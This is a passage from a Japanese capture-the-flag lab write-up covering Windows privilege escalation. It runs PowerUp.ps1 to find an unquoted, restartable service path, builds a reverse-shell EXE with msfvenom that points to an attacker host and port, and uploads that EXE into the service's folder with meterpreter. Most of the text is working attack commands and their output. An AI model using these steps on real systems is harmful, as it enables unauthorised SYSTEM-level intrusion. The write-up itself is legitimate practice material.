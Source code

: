 meterpreter のシェルが取れたのでこれで user.txt が取得できます

## privilege escalation
PowerUp.ps1 なるものがあるようなので meterpreter から upload します
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
使い方
https://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/


```
C:hogehoge > powershell.exe -exec bypass -Command “& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}”

（省略）

[*] Checking for unquoted service paths...


ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced 
                 SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; 
                 Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path 
                 <HijackPath>
CanRestart     : True

（省略）
```
以下の用に unquoted service path はそこに別のプログラムを置くことで任意のコマンドを実行できる可能性があります。
[引用符で囲まれていないプログラムパスの処理問題](http://www.sec-pro.net/newsletter/20121112.html)

また、`CanRestart: True`であることから service をリスタート、すなわち unquoted service paths の部分を利用して配置した任意コマンドを実行できます。

msfvenom で payload を exe の形式で作成して、

```
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.245.227 LPORT=1111 -f exe -o Advanced.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: Advanced.exe

```
作成した Advanced.exe を meterpreter の upload コマンドを通して、`C:\Program Files (x86)\IObit\`に配置します。

```
meterpreter > cd "\Program Files (x86)\IObit"
meterpreter > upload Advanced.exe
[*] uploading  : Advanced.exe -> Advanced.exe
[*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): Advanced.exe -> Advanced.exe
[*] uploaded   : Advanced.exe -> Advanced.exe
```

